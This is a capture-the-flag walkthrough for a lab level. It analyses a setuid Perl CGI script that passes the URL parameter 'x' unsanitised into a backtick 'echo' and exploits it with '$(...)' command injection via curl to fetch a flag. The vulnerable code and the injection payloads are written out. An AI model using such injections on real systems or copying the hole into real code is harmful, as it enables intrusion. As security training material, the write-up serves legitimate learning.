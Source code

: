 # Level 04

## Requirements

- None

## Walkthrough

1. Login from the __attacker__'s machine.

	```
	ssh -p 4242 level04@192.168.1.32
	Password: qi0maab88jeaj46qoumi7maus
	```

1. Checking files.

	```sh
	> pwd
	/home/user/level04

	> ls -lth
	-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
	```

1. Good, we already have our entry point right here.

	```sh
	> ./level04.pl
	Content-type: text/html

	> cat level04.pl
	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
	$y = $_[0];
	print `echo $y 2>&1`;
	}
	x(param("x"));
	```

1. Well... I do not know anything about PERL, but I know some about WebDev, so let's try to understand what it does, and then apply our new knowledge to test few things.

	```perl
	#!/usr/bin/perl
	# localhost:4747

	# From PERL documentation: CGI - Handle Common Gateway Interface requests and responses.
	use CGI qw{param};

	# Just a simple `print`, maybe to give a hint on what's going on
	# In combination with the `CGI`, it totally looks like a WebServer.
	print "Content-type: text/html\n\n";

	# Looks like a `function` called `x`
	sub x
	{
		# From PERL documentation: $_ - The default input and pattern-searching space
		# So `$_[0]` looks like it takes the first argument.
		$y = $_[0];

		# A `print` call using previous variable
		# Worth to mention, the use of `backticks` means everything between will be interpreted, so `stderr` is redirected to `stdout`, and we might be able to inject a command into `$y` a.k.a. `$_[0]`.
		print `echo $y 2>&1`;
	}

	# Looks like a `function call` with argument `param("x")`
	# Since we seems to run a WebServer, `param("x")` should be an URL query parameter.
	# ex: 42.fr/search?x=qwe
	x(param("x"));
	```

1. After a quick overview, let's try our first thought.

	```sh
	> ./level04.pl 42.fr/search?x=qwe
	Content-type: text/html

	qwe
	```

1. Amazing, we got our `param` back. Now, let's try to inject a command.

	```sh
	# After few test, just providing 'x=' seems to be enough to work.
	> ./level04.pl x=ls
	Content-type: text/html

	ls

	# The command has not been executed since there is a call to 'echo' ahead.
	# We need to run it as a subcommand.
	> ./level04.pl 'x=$(ls)'
	Content-type: text/html

	level04.pl

	# Gorgeous, our command is executed, let's get our flag!
	> ./level04.pl 'x=$(getflag)'
	Content-type: text/html

	Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)

	# F-WORD! Something isn't working as expected.
	# Wait a minute... We were running the script as `level04` user, but on top of the script, a Host and a Port are provided. What about using them to make the server run the command ?
	```

1. Get the flag.

	```sh
	> curl 'localhost:4747?x=$(getflag)'
	Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
	```
## Documentation

- Language: [PERL](https://perldoc.perl.org/)
- Command: [Curl](https://man7.org/linux/man-pages/man1/curl.1.html)
